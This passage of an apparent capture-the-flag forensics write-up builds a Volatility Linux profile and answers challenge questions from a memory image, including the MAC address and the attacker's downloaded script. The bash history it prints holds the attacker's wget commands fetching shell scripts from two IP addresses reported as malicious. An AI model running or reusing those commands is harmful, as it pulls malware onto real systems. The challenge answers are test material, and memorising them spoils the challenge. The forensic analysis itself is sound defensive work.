 **IMPORTANT: if you encounter an error relative to a missing licence in `/volatility/module.c`, then add this line at this end of `module.c`:**

```c
MODULE_LICENSE("GPL");
```

Finnaly, build the profile (`Ubuntu-azure.zip`):

```
d# zip Ubuntu-azure.zip module.dwarf /boot/System.map-5.4.0-1059-azure
```

`/boot/System.map-5.4.0-1059-azure` should exists inside your Docker. If not, you have not installed the right kernel packages. Quit the Docker and copy the `Ubuntu-azure.zip` file into `volatility/plugins/overlays/linux`.

---

Do you have built the profile correctly? Let's try to use it in `Volatility`:

```
# #display information about vol profiles
# python2 vol.py --info|grep Profile
Volatility Foundation Volatility Framework 2.6.1
Profiles
LinuxUbuntu-azurex64  - A Profile for Linux Ubuntu-azure x64
...
```

If you see `LinuxUbuntu-azurex64` chances are your profile is valid, let's test it. We are looking for the MAC address of the machine, according to the [vol2 documentation]
(https://downloads.volatilityfoundation.org/releases/2.4/CheatSheet_v2.4.pdf), `linux_ifconfig` should give me the answer.

```
# python2 vol.py -f ubuntu.20211208.mem --profile=LinuxUbuntu-azurex64 linux_ifconfig

Volatility Foundation Volatility Framework 2.6.1
Interface        IP Address           MAC Address        Promiscous Mode
---------------- -------------------- ------------------ ---------------
lo               127.0.0.1            00:00:00:00:00:00  False          
eth0             10.0.0.4             00:22:48:26:3b:16  False    
```

Here we go! The eth0 MAC address is the good answer :)

## Q16 From Bash history. The attacker downloaded an sh script. What is the name of the file?

*file: ubuntu.20211208.mem*

`linux_bash` plugin gives the bash history, let's make a grep on the output:

```
# python2 vol.py -f ubuntu.20211208.mem --profile=LinuxUbuntu-azurex64 linux_bash|grep -E '(wget |curl ).*\.sh'
Volatility Foundation Volatility Framework 2.6.1
    4205 bash                 2021-12-08 16:12:31 UTC+0000   wget http://88.218.227.141/wget.sh
    4205 bash                 2021-12-08 16:12:31 UTC+0000   wget http://185.191.32.198/unk.sh
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep ".sh
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep ".sh"
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep "\.sh"

```

Both of the IP are reported as malicious on [VirusTotal](https://www.virustotal.com/), so I think the attacker downloaded at least two malicious files via bash. The only files that matches the pattern is `unk.sh`.
